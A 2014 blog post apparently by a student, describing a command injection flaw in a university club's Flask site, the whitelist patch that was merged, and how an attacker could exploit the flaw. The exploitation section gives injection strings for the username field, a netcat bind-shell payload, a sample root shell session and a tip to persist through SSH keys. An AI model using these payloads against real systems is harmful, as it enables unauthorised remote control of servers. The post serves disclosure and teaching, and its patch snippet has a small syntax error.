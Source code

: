 ```yaml
---
layout: post
date: 2014-03-01 14:00
title: iHackedIT
categories: web security hacking python
comments: true
---
```


*Discovering, patching, and exploiting a simple command injection webapp*

## Introduction

The university that I study at, [Northeastern](http://neu.edu) has an awesome [Entrepreneurs Club](http://www.northeastern.edu/entrepreneurs/). One of the programs that they run is called [iMadeIT](http://www.northeastern.edu/entrepreneurs/programs/imadeit/) which is a series of workshops designed to help entrepreneurs with a nontechnical background to learn about web development. This post is going go over a vulnerability I discovered in the iMadeIT class website, how I patched, and how an attacker might exploit it in a real situation.

## Background

The workshops are taught using [Flask](http://flask.pocoo.org/), a Python microframework for web development known for its simplicity and ease of use for beginners. Students taking the class would sign up at [imadeit.nu](http://imadeit.nu), which would make them an account on the website for class management purposes, but also would interestingly create an account for them on the server running the iMadeIT site as well as allow them to "register" a TCP port to run their Flask app on. This would allow students to have a live link on the internet so they could show off what they've been working on to people (instead of just running on localhost) without requiring everyone to have their own server.

## The Vulnerability

Anyway, the iMadeIT guys open sourced the [code](https://github.com/imadeitnortheastern/spring2014) that runs their imadeit.nu website and since it is actually written in Flask which is something I've been meaning to learn for a while now, I decided to take a look at it to see if I could understand anything.

After poking around in the code for a bit, I noticed this particularly interesting function:

```python
def create(name, password):
    {...}
    return os.system('useradd -p {} -s /bin/bash -d /home/{} -m {}'.format(enc_pass, name, name))
```

This is what gives the user their own account on the server. If we trace the function calls, we can see that this function is called from the `create_account` function. Heavily edited to only show relevant sections, it looks like this:

```python
def create_account():
    {...}
    name = request.form['create_username']
    pw = request.form['create_pw']
    {...}
    user.create(name, pw)
    {...}
```

Notice anything? The username is taken from the webpage form and directly passed into the `create` function without any type of sanitization, creating a classic [command injection](https://www.owasp.org/index.php/Command_Injection) vulnerability. What this essentially means is that it's possible for an attacker to put a specially formatted string in the username field that will allow them to execute arbitrary commands on the server.

For example, under ordinary circumstances, a user might enter "mark" as their username, so the `os.system()` call would execute:

```sh
useradd -p {encrypted password} -s /bin/bash -d /home/mark -m mark
```

Let's say a user entered "mark; ls -l #". Now, `os.system()` is going to execute:

```sh
useradd -p {encrypted password} -s /bin/bash -d /home/mark; ls -l; # -m mark; ls -l #
```

This will create the user "mark", but it will also cause `ls -l` to be executed, which will list the files in the directory. Now the user that entered this in the form isn't going to see anything; the command executes internally on the server. Hopefully you're seeing now why this is bad - anyone can execute any command on the server as the user that is running the Flask app. In this case it's particularly bad, because the app is running on port 80 of the server which is a "privileged" port. Since only the superuser is allowed to run network services on ports below 1024, essentially anyone now has root access to the server.

As a side note, the "#" in the injection is there to comment out the rest of the command (the "-m" part) so it doesn't interfere with the injection.

## Patching

This is actually a really easy vulnerability to protect against, all that's required is to make sure that that the username and password fields are checked in some form before they are sent to the system call. In this case, we don't have to worry about the password, because it goes through encryption before being used in the system call, so any attempts to inject in the password field would fail when the attacker's injection gets encrypted.

To check the username input, it's important to use a [positive security model](https://www.owasp.org/index.php/Positive_security_model) (a whitelist) over a negative one. This is because using a blacklist of specific characters that aren't allowed can be potentially incomplete and leaves the attacker room to find sneaky ways to exploit this vulnerability using alternative characters that aren't in your blacklist. As a general rule, it's better to use a whitelist of only the characters that are permitted. In this case, for a username, let's say that users should only be allowed to have usernames with lowercase letters, uppercase letters, underscores, and periods. Writing a function to check for this would look like this:


```python
import re
def valid_username(name):
    if re.search('[^\w.]', name):
        return False
    else
        return True
```

In this particular approach, we aren't *really* sanitizing the input, we're just checking it's validity. In this case, if this function returned false, the `create_account` function would fail, and we would show an error to the user. An alternative would be to attempt to correct invalid user input by removing invalid characters, however despite potential UX arguments, I think it's personally better just to halt completely and let the user sort it out on their end.

### Exploiting

Now that we've described how the vulnerability works, and how to protect against it, let's dirty our white hats a little and check out some steps an attacker might take once discovering the vulnerability.

First of all, we know that we can execute arbitrary commands on the server as the root user. To most, this pretty much is already the definition of being 0wned. However, doing so is sort of awkward; we have to go to the login form and create a new user for every command we want to execute. Let's use netcat to create a rudimentary backdoor into the system by telling netcat to listen on an arbitrary port (say, 1337) and executing a certain file upon receiving a connection (say, `/bin/sh`).

This command looks like

```sh
$ netcat -l -p 1337 -e /bin/sh
```

and so our injection would look like

```sh
mark; netcat -l -p 1337 -e /bin/sh & #
```

Notice that I added a "&" before the "#" in the injection. This will cause the backdoor to run in the background because otherwise the flask process would stop while the backdoor is running, and the webapp would stop working. Not very stealthy. When we enter this into the create account form, we won't get any sort of confirmation that our backdoor is working, however we'll know soon enough when we test it. To connect, all we need to do is run

    $ netcat [ip address] 1337

which will attempt to create a simple TCP connection to the IP address of the server on the same port you specified earlier. If it worked, you won't get a prompt, but you'll have a shell that you can enter commands at. With spaces added for ease of reading, this looks like

    $ netcat 1.2.3.4 1337
    
    ls
    imadeit.db
    imadeit.py
    schema.sql
    static
    templates
    user.py
    user.pyc
    
    whoami
    root
    
    echo $SHELL
    /bin/bash

Now, the server has been totally owned. Next steps could include adding your ssh public key to the `~/.ssh/authorized_keys` file for enhanced persistence if the server got restarted, or if someone saw your backdoor and killed it. In a situation where the app wasn't running on port 80 and was running on a nonprivileged port instead, you wouldn't necessarily have root access so you would then use a local exploit to escalate privileges. However for this situation, even exploiting this vulnerability at all is sort of pointless because the webapp actually *creates an account for you* on the server which you can ssh into, and legitimately get a shell.

## Conclusion

I hope you can see now how even something as simple as checking user input in a webapp can go a long way in securing your web site and making sure you don't get hacked. After discovering the vuln, I submitted a pull request to iMadeIT's repo on github, which was merged and deployed an astonishing [*5 minutes*](https://github.com/imadeitnortheastern/spring2014/pull/1) later, so serious props to them for that. I've never discovered a serious vulnerability "in the wild" before, so it was sort of cool to go through the process of submitting the patch and then confirming that it was working in the live site.

That's all, thanks for reading!
